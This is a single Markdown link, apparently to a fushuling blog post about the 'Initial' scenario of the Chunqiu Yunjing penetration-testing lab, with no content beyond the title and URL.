[春秋云境·Initial – fushulingのblog](https://fushuling.com/index.php/2023/08/27/%e6%98%a5%e7%a7%8b%e4%ba%91%e5%a2%83%c2%b7initial/)
